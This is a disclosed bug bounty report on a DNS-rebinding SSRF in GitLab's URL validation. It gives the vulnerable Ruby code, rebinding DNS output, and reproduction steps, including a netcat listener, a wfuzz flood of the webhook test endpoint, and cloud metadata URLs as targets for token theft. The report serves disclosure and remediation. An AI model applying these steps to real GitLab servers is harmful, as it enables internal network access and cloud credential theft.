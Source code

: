 # GitLab::UrlBlocker validation bypass leading to full Server Side Request Forgery

## Report Details
- **Report ID**: 541169
- **URL**: https://hackerone.com/reports/541169
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-04-17T09:18:36.964Z
- **Disclosed**: 2019-12-12T11:56:05.168Z

## Reporter
- **Username**: ajxchapman
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary
The `GitLab::UrlBlocker` IP address validation methods suffer from a Time of Check to Time of Use (ToCToU) vulnerability. The vulnerability occurs due to multiple DNS resolution requests performed before and after the checks. This issue allows a malicious authenticated user to send GET and POST HTTP requests to arbitrary hosts, including the localhost, cloud metadata services and the local network, and read the HTTP response.

### Details
The IP address validation code in `/lib/gitlab/url_blocker.rb` resolves the IP addresses of the provided URL domain, raises an exception if the resolved IP addresses match addresses in block lists (`127.0.0.1`, `::1`, `169.254.0.0/16`, etc.) or returns `true` if the IP address do not match the block lists.
```ruby
  begin
    addrs_info = Addrinfo.getaddrinfo(uri.hostname, port, nil, :STREAM).map do |addr|
      addr.ipv6_v4mapped? ? addr.ipv6_to_ipv4 : addr
    end
  rescue SocketError
    return true
  end

  validate_localhost!(addrs_info) unless allow_localhost
  validate_loopback!(addrs_info) unless allow_localhost
  validate_local_network!(addrs_info) unless allow_local_network
  validate_link_local!(addrs_info) unless allow_local_network

  true
end
```
If the address validates the `GitLab::HTTP` code then uses `HTTParty` to request the URL, which performs a second URL domain DNS resolution. The address validation checks can be bypassed if the URL domain resolves to a valid address for the first resolution then a forbidden address after the checks are performed. 

In order to perform this attack a DNS server must be configured to resolve a domain to alternating addresses with a low (or zero) Time To Live. To demonstrate this issue I used my researchersservers project (https://github.com/ajxchapman/sshreverseshell) with the configuration in {F470655}. Output of resolving `gitlabextssrf.webhooks.pw` against this DNS resolver configuration is shown below:
```sh
$ dig +noall +answer gitlabextssrf.webhooks.pw
gitlabextssrf.webhooks.pw. 0    IN      A       198.211.125.160
$ dig +noall +answer gitlabextssrf.webhooks.pw
gitlabextssrf.webhooks.pw. 0    IN      A       198.211.125.160
$ dig +noall +answer gitlabextssrf.webhooks.pw
gitlabextssrf.webhooks.pw. 0    IN      A       127.0.0.1
$ dig +noall +answer gitlabextssrf.webhooks.pw
gitlabextssrf.webhooks.pw. 0    IN      A       127.0.0.1
$ dig +noall +answer gitlabextssrf.webhooks.pw
gitlabextssrf.webhooks.pw. 0    IN      A       198.211.125.160
```
Notice the alternating resolved IP address and 0 ttl.

### Attack scenario
Using the Web Hook integration functionality of a GitLab repository, this issue can be abused to send HTTP GET and POST requests to arbitrary IP addresses, with arbitrary path parameters. The following screenshot shows the response of an HTTP GET request to `http://169.254.169.254/metadata/v1.json` on a DigitalOcean droplet:
{F470641}

### Steps to reproduce
To demonstrate this issue I have configured the domain `gitladextssrf.webhooks.pw` to randomly resolve to either `198.211.125.160` or `127.0.0.1`.

1. Create a new repository
1. Add a commit to the repository
1. Create a new Web Hook integration with the URL http://gitlabextssrf.webhooks.pw:9999.
  * This may take several attempts due to the random nature of the `gitlabextssrf.webhooks.pw` DNS resolver, if it fails with a `500` error, try again until it is accepted.
1. Log into the gitlab server and start a TCP listener on port 9999/tcp (e.g. `nc -vvn -l -p 9999`)
1. Perform numerous parallel requests to the Web Hook test endpoint. For this I use `wfuzz`

```sh
$ ./wfuzz -X POST \
  -b "_gitlab_session=<session_id>;" \
  -d "_method=post&authenticity_token=<token>" \
  -z range,0-1000 \
  "https://<domain>/<user>/<repo>/hooks/<hook_id>/test?trigger=push_events&test=FUZZ"
```
The the below video demonstration of reproducing this issue:
{F470642}

After several requests a connection will be made to the local TCP listener on port 9999/tcp.

### Impact
This issue allows a malicious authenticated user to send GET and POST HTTP requests from the GitLab server to arbitrary hosts (including the localhost, cloud metadata services and the local network) with arbitrary paths, and read the HTTP response. This could be abused to compromise the host (e.g. leaking AWS tokens from the metadata service), or perform reconnaissance and exploitation of hosts on the local network.

### What is the current *bug* behavior?
The `GitLab::UrlBlocker` validation code resolves the IP addresses of a URL domain, validates them against a series of block lists, and if valid returns to the `GitLab::HTTP` module which re-resolves the URL domain in order to perform the HTTP request.

### What is the expected *correct* behavior?
The validated resolved addresses should be returned by `GitLab::UrlBlocker` and used by `GitLab::HTTP` to make the TCP connection to the destination host.

### Relevant logs and/or screenshots
Output of using the ToCToU bypass in a Web Hook to send a request to the DigitalOcean droplet meta data API `http://169.254.169.254/metadata/v1.json` endpoint:
{F470641}

### Output of checks
#### Results of GitLab environment info
```sh
$ gitlab-rake gitlab:env:info

System information
System:         Ubuntu 18.04
Proxy:          no
Current User:   git
Using RVM:      no
Ruby Version:   2.5.3p105
Gem Version:    2.7.6
Bundler Version:1.16.6
Rake Version:   12.3.2
Redis Version:  3.2.12
Git Version:    2.18.1
Sidekiq Version:5.2.5
Go Version:     unknown

GitLab information
Version:        11.9.8-ee
Revision:       c9701808101
Directory:      /opt/gitlab/embedded/service/gitlab-rails
DB Adapter:     postgresql
DB Version:     9.6.11
URL:            https://gitlabext.webhooks.pw
HTTP Clone URL: https://gitlabext.webhooks.pw/some-group/some-project.git
SSH Clone URL:  git@gitlabext.webhooks.pw:some-group/some-project.git
Elasticsearch:  no
Geo:            no
Using LDAP:     no
Using Omniauth: yes
Omniauth Providers:

GitLab Shell
Version:        8.7.1
Repository storage paths:
- default:      /var/opt/gitlab/git-data/repositories
GitLab Shell path:              /opt/gitlab/embedded/service/gitlab-shell
Git:            /opt/gitlab/embedded/bin/git
```

I have confirmed this issue on both the official Docker image and the official `gitlab-ee` Ubuntu package (using installation instructions from https://about.gitlab.com/install/#ubuntu).

## Impact

This issue allows a malicious authenticated user to send GET and POST HTTP requests from the GitLab server to arbitrary hosts (including the localhost, cloud metadata services and the local network) with arbitrary paths, and read the HTTP response. This could be abused to compromise the host (e.g. leaking AWS tokens from the metadata service), or perform reconnaissance and exploitation of hosts on the local network.

## Attachments
- Screenshot_from_2019-04-17_09-18-49.png
- gitlab_ssrf.mp4
- 41_gitlab.json
